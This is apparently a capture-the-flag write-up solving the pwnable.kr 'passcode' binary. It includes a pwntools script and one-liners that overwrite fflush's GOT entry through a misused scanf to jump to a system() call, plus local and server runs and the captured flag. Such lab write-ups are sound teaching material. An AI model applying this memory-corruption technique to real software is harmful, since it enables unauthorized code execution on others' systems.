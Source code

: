 ```
ie. password1 = fflush;
    scanf("%d", fflush)

It becomes ```fflush(input)```

Now its time for exploit,

```
   0x080485e3 <+127>:	mov    DWORD PTR [esp],0x80487af
   0x080485ea <+134>:	call   0x8048460 <system@plt>
   0x080485ef <+139>:	leave
```
Here ```0x080485ea``` is the important function to display our flag, we will pass this to ```fflush(stdin)```

```
ra@moni~/P/p/passcode> cat exploit.py
from pwn import *
data='A'*96
data+=p32(0x804a004)
data+=str(0x080485ea)
print(data)
```

Our ```payload = 96 bytes junk + GOT of fflush() + args for fflush() passed in scanf()```

```
ra@moni~/P/p/passcode> python exploit.py
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x04\x04134514154
ra@moni~/P/p/passcode> python exploit.py > exploit
ra@moni~/P/p/passcode> cat exploit
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA134514154
```

Now lets test it locally,

```
ra@moni:~/PWNPractice/pwnable.kr/passcode$ cat exploit | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
sh: 1: Syntax error: word unexpected (expecting ")")
enter passcode1 : Now I can safely trust you that you have credential :)
```

Its time to test it on server,

```
passcode@pwnable:~$ python -c "print('A' * 96 + '\x04\xa0\x04\x08' + '134514147')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA134514147
passcode@pwnable:~$ python -c "print('A' * 96 + '\x04\xa0\x04\x08' + '134514147')" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

Done! we got the flag

```Flag: Now I can safely trust you that you have credential :) ```